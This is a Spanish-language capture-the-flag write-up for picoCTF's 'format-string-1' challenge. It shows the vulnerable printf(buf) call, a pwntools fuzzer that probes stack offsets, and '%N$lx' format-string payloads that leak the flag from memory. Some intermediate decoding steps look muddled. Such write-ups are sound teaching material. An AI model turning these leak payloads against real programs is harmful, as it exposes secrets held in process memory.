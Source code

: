 En este ejercicio nos dan un binario y su código en C.

El programa comprueba si existen tres archivos en el directorio actual:

* flag.txt
* secret\_menu\_item\_1
* secret\_menu\_item\_2

Si no existe alguno de esos archivos, el programa se aborta.

Cuando los tres archivos existen, el programa hace lo siguiente:

```c
./format-string-1
Give me your order and I'll read it back to you:
hola
Here's your order: hola
Bye!
```

El programa pide un input del usuario y nos devuelve lo que hemos puesto. Como el ejercicio se llama "format strings", vamos a comprobar si efectivamente es vulnerable a este tipo de ataque, revisando el código:

```c
printf("Give me your order and I'll read it back to you:\n");
fflush(stdout);
scanf("%1024s", buf);
printf("Here's your order: ");
printf(buf); // Aquí
```

Efectivamente, podemos ver que `printf(buf);` no tiene indicado el formato, por lo tanto es vulnerable a format strings.

```c
fd = fopen("flag.txt", "r");
if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
}
fgets(flag, 64, fd); // Aquí
```

Gracias al uso de `fgets`, el contenido de flag.txt se manda al stack, lo que nos permite aprovechar la vulnerabilidad para leer la flag.

He creado un fuzzer que hace un `%x` en las primeras 100 posiciones, lo que permite ver en formato hexadecimal los 100 elementos más cercanos a la cima del stack:

```python
for i in range(100):
    try:
        p = process(level='error')
        p.sendlineafter(b'Give me your order', '%{}$x'.format(i).encode())
        result = p.recvuntil(b'Bye!')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

Resultado parcial de la ejecución:

```bash
14: b" and I'll read it back to you:\nHere's your order: 41414141\nBye!"
```

En la posición 14 obtenemos `41414141`, que corresponde a `AAAA` en hexadecimal, contenido que colocamos previamente en `flag.txt`.

Ya que sabemos en qué posición se encuentra, creamos un payload que imprima esa posición:

```c
%14$x
```

Ejecutándolo:

```c
Give me your order and I'll read it back to you:
%14$x
Here's your order: 6f636970
Bye!
```

Pasando de hexadecimal a ASCII:

```c
6f636970 → "ocip"
```

Está al revés, lo que indica que la flag está en bloques en orden inverso. Probamos con más posiciones:

```c
%14$x,%15$x,%16$x,%17$x,%18$x
```

Resultado:

```c
Here's your order: 6f636970,6d316e34,33317937,3431665f,64663533
```

Pasado a ASCII:

```
ocipm1n431y741f_df53
```

Revirtiendo los bloques:c

```
pico4n1m7y13_f1435fd
```

Esto aún no es correcto. Al investigar, nos damos cuenta de que el binario es de 64 bits, y estamos usando `%x`, que saca 32 bits. Cambiamos a `%lx` para obtener 64 bits:

```c
%14$lx,%15$lx,%16$lx,%17$lx,%18$lx
```

Resultado:

```c
Here's your order: 7b4654436f636970,355f31346d316e34,3478345f33317937,31395f673431665f,7d653464663533
```

Pasado a texto:

```c
picoCTF{SECRETO}
```

Tenemos la flag!
